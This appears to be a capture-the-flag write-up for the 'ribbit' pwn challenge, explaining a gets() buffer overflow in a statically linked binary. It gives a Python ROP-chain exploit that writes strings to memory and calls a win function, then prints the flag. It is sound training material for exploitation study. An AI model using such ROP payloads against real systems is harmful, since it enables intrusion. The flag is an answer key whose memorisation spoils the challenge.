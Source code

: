 # ribbit
![challenge](challenge.png)
### Challenge:
##### Oh no! My pet frog got stuck inside a giant hole! Can you help him ROP out?.

##### Files: [Dockerfile](Dockerifle), [ribbit.c](ribbit.c), [ribbit](ribbit)
##### Links: ```nc chal.nbctf.com 30170```

### Solution:

We have a bof in the frog() function due to a gets call, the binary is statically linked so we have all the gadgets we want.

There's a win function that gives us our flag if we call it with the correct parameters so we can simply rop our way to victory:

![challenge2](challenge2.png)

```py
MOV = p64(0x000000000049346a) #0x000000000049346a: mov qword ptr [rcx], rdx; ret; 

def write(address, value):
    value=[value[i:i+8] for i in range(0, len(value), 8)]
    
    chain=b""

    for i in range(len(value)):
        chain+= POP_RDX + p64(u64(value[i])) + POP_RCX + p64(WRITABLE+8*i) + MOV

    return chain

to_write = b"You got this!"+b"\x00"*8+b"Just do it!"+b"\x00"*8
payload = b"A"*40 + write(WRITABLE, to_write) + POP_RDI + p64(0xf10c70b33f) + POP_RSI + p64(WRITABLE) + p64(elf.sym["win"])
```

This ropchain writes to a writable address the value the 2nd parameter needs to take, then it sets 1st and 2nd parameters registers to the correct values and calls the win function.

Solve script: [solve.py](solve.py)

Flag: ```nbctf{ur_w3lc0m3_qu454r_5abf2e}```

